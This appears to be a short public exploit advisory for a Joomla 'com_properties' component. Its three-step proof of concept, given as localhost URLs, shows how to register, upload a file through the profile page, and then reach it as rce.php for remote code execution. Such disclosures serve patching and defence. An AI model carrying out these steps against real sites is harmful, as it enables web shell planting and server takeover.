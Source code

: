 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE
Google Dork: NA
Exploit Author: Und3r-r00t
Tested on: Centos

PoC  

1- register and login
http://localhost/index.php?option=com_user&task=register&Itemid=296
  
http://localhost/index.php?option=com_user&view=login

2- Upload File 
http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19

3- File path
http://localhost/images/properties/profiles/rce.php


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------
